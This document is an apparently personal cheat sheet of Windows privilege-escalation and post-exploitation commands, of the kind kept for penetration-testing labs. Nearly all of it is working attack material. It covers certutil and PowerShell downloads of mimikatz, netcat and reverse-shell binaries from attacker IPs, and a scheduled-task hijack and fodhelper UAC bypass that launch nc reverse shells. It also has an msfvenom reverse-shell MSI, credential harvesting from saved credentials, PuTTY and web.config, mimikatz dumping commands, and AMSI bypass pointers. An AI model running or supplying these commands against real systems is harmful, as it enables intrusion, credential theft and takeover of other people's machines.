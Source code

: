 TAGS: #WindowsCommands #Enumeration 

>
>https://sohvaxus.github.io/content/winxp-sp1-privesc.html
>https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/

## * CMD and Powershell commands
```cmd/ps
echo %userdomain% %username%
whoami /priv
whoami /groups
net user
net localgroup
net localgroup administrators
net start
echo $Env:PATH
echo $Env:%PATH% ------#cmd
netstat -ano
```
>Note: copy info from systeminfo, save it to a text file on your machine and use windows exploit suggester on it
```
systeminfo
```
Note: To start and stop services
```cmd
sc start <service name>
sc stop <service name>
```
Note: Checking powershell history
```
type C:\Users\<actual user>\appdata\roaming\microsoft\windows\powershell\psreadline
```

```locating-files
where /R c:/windows file-name
```

## * Saved Windows Credentials
```cmd/ps
1. cmdkey /list

2. runas /savecred /user:admin cmd.exe
```

##### - IIS Configuration
```cmd/ps
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

##### - Retrieve Credentials from Software: Putty
```cmd/ps
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

## * CMD commands
```CMD-only shell-session
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
##### - Download files
```
certutil.exe -urlcache -f http://192.168.119.225/SharpHound.exe sh.exe
certutil.exe -urlcache -f http://192.168.119.225/nc.exe nc.exe
certutil.exe -urlcache -f http://192.168.119.225/rev-4441.exe rev.exe
certutil.exe -urlcache -f http://192.168.119.225/mimikatz.exe mm.exe
certutil.exe -urlcache -f http://192.168.119.225/winPEASx86_ofs.exe wp.exe
certutil.exe -urlcache -f http://192.168.45.195/winPEASx64.exe wp1.exe
certutil.exe -urlcache -f http://192.168.45.195/w64agent.exe agent.exe
certutil.exe -urlcache -f http://192.168.45.195/PrintSpoofer32.exe psf.exe

Invoke-WebRequest http://192.168.45.195:8000/mimikatz64.exe mm.exe

curl -o nc.exe http://192.168.45.195:8000/nc64.exe
```

## * Powershell
``` Powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```
#file search
gci -path C:\ -recurse -include "local.txt"
```
##### - Download files
```Powershell
powershell -ep bypass "(New-Object System.Net.WebClient).Downloadfile('http://192.168.119.225/test.aspx')"
```

```Powershell
##### - Reigistry Escalation

```PowerShell
Get-Acl -Path hklm:\System\CurrentControlSet\Services\regsvc | fl
```
## * Unattended Windows Installations: May have creds
```
- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml- 
```

## * Scheduled Task
```Scheduled-Task
## Idea is to check for task running to retrieve detalid information about any of the services
- schtasks
- schtasks /query /tn <task name> /fo list /v

## icacls displays or modifies permissions of a file
- icacls c:\<location of the file that the task is running>

## modifying file the task is running

- C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\<location of the file that the task is running>

```

##### - Startup applications
Note: checking applications in the startup
```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

## * AlwaysInstallElevated
```AlwaysInstallElevated
## Only works, if these 2 regesitry are set:
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

## Generate malicious msi file:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

## Once the file is on the victim machine:
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

```

## * Networking
```
ipconfig /all
netstat -abno
arp -a

```
## * Unquoted Service Paths
```
Examples:
exploitable
C:\Program Files\Common Files\file.exe
Windows will check every part of the pathname for the exe file. Such as: C:\Program.exe, c:\Program Files.exe, c:\Program Files\Common.exe

not exploitable
"C:\Program Files\Common Files\file.exe"
```



### whoami /priv
![[Pasted image 20220909181843.png]]
```
If SeImpersonatePrivilege is enabled, we can possibly use juicy potato to exploit it
```
https://github.com/ohpe/juicy-potato
https://github.com/ohpe/juicy-potato/releases
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato

### Adding Users
```
net user Cyrano cyrano01 /add /domain

### adding users to groups
net group "name of group you want to add user to" /add Cyrano
```
## UAC Bypass Section

### UAC Bypass Methods
```
net use Z: \\127.0.0.1\C$
z:
```

```
Arkham - ippsec
https://youtube.com/watch?v=krC5j1Ab44I&t=3340

google
hfiref0x/UACME github
egre55 UAC bypass
https://egre55.github.io/system-properties-uac-bypass/
```

If user is admin but don't have administrative privileges. If you put in whoami /priv and see below.
Group used for deny only = means you can do a UAC bypass
Check out overgrowncarror github for invoke-bypass.ps1
https://github.com/overgrowncarrot1/Invoke-Bypass
#### UAC bypass with fodhelper
```
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -value "C:\TEMP\nc.exe 10.10.132.141 4455 -e cmd.exe" -Force

New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -PropertyType String -Force

### Then run fodhelper command
fodhelper or fodhelper.exe

```
### mimikatz
`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md`
```
privilege::debug


sekurlsa::logonpasswords
sekurlsa::tickets /export

kerberos::list /export

vault::cred
vault::list

lsadump::sam
lsadump::secrets
lsadump::cache
```


## AMSI Bypass
If we receive the message below in powershell
The script contains malicious content and has been blocked by your antivirus

Check out overgrowncarrot github for scripts/amsi bypass
https://github.com/overgrowncarrot1/Scripts/blob/main/AMSIBypass.txt